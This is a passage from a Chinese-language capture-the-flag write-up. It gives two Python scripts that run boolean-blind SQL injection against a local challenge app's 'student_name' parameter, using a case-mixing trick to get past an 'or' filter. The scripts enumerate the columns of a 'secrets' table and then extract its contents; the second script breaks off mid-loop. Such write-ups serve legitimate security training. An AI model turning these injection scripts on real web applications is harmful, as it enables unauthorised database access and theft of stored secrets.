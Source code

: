 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732606285343-1b8fc9fc-2987-4eb1-8783-66f46081d04b.png)

爆出来的字符串拆解后发现有三张表表民为courses secrects students (分析flag可能藏在secrets表里面)

简单修改以下代码 接着爆表字段 由于or被过滤所以infOrmation大小写绕过

```python
import requests,time,string

url= 'http://127.0.0.1:65382/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + '_-{}':
        time.sleep(0.1)
        print('尝试的字符', c)

        columns=f'(Select(group_concat(column_name))from(infOrmation_schema.columns)where((table_name)like(\'secrets\')))'

        char=f'(ord(mid({columns},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and({b})#'
        res=requests.get(url, params={'student_name': p})

        if 'Alice'in res.text:
            print('正确',c)
            result +=c
            print(result)
            break
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732608358001-7ac3629e-867b-40e1-8043-148306b6dce5.png)

爆出字段id和secret_key 于是接着简单修改爆secret_key的值

```python
import requests,time,string

url= 'http://127.0.0.1:65382/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + ' ,_-{}':
        time.sleep(0.01)
        print('尝试的字符', c)

        value=f'(Select(group_concat(secret_value))from(secrets))'

        char=f'(ord(mid({value},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and({b})#'
        res=requests.get(url, params={'student_name': p})

        if 'Alice'in res.text:
            print('正确',c)
```